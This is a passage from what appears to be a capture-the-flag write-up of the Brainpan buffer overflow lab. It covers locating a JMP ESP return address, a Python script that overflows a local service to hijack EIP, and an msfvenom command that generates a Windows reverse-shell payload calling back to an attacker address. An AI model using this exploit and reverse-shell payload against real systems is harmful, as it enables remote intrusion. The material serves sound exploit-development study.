 #### JMP ESP

We don’t need to give to the EIP the exact address of our malicious shellcode. The instruction **JMP ESP** will jump to the stack pointer and execute our malicious shellcode. So, If we can find the JMP ESP instruction in the program, we can give its memory address to the EIP and it will jump to automatically to our malicious shellcode.

![image]( /assets/img/brainpan/Pasted image 20210609235930.png)

Immunity Debugger -> Search for -> All commands -> JMP ESP

![image]( /assets/img/brainpan/Pasted image 20210610000525.png)

- The address of the JMP ESP is :  
	- 311712F3 or in little endian
	-  `\xF3\x12\x17\x31`

#### JMP ESP | Call confirmation

- Toggle Breakpoint on JMP ESP Address

![image]( /assets/img/brainpan/Pasted image 20210610001923.png)

- Becarefull do not encode the `\xF3\x12\x17\x31` just  concat it with the encoded payload like this  `payload.encode('utf-8')+b'\xF3\x12\x17\x31'`

```python
import socket,sys

#Identify that the EIP call the 'JMP ESP's instruction address
payload = "A" * 524
try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8')+b'\xF3\x12\x17\x31')
    s.close()
except Exception as ex:
    print(ex)
    print("[X] Connection error")
    sys.exit()
```

![image]( /assets/img/brainpan/Pasted image 20210610005103.png)

- We triggered the breakpoint. Therefore, the EIP call successfully the address of the Instruction JMP ESP.

#### Reverse Shell

- msfvenom
- flag `-b` means generate shellcode without the specificied bad chars

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f python -a x86 -b '\x00'
```
- python script
- Important the above code is running with python not python3 like previous scripts
